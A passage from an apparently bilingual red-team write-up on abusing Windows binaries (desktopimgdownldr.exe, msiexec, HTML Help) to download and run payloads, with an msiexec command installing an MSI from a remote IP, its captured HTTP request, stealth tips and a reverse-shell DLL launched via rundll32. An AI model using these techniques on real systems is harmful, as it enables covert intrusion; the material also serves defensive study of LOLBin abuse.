 ***Note.2*** The system uses BITS to download Windows updates and Microsoft Defender updates, among other things.

***Tips***

*When running as Administrator, the binary sets and overrides the user’s lock screen image. However, as I show further below, by deleting the registry right after running the binary, the override can be avoided. In addition, desktopimgdownldr.exe does not change the image while the computer is in a locked screen, so an attacker can run it without the user noticing at all.*

### 5. Msiexec.exe

```powershell
msiexec /i http://192.168.220.125/white_process/test.msi
```

[***pcap***](/assets/pcap/Msiexec.pcap)

```http
GET /white_process/test.msi HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Windows Installer
Host: 192.168.220.125
```

***Note*** whitch function Msiexec.exe call: *DllRegisterServer*
之前按照 `Micro8` 的过程复现, 发现一直有问题, 后来wsy提醒说, Msiexec 调用的dll的 `DllRegisterServer`, 而`Micro8`中的方法生成的dll导出表仅有 `DllEntryPoint`

后面逆向了一下 32位版的 msiexec.exe, 也通过 `rundll32 Msiexec_rev_x64_4444.dll DllEntryPoint` 成功 get shell 证实了这一结论

![msiexec_re_register_dll](./assets/img/Msiexec_DllRegisterServer.png)

### 6. HH

Open the target PowerShell script with HTML Help.
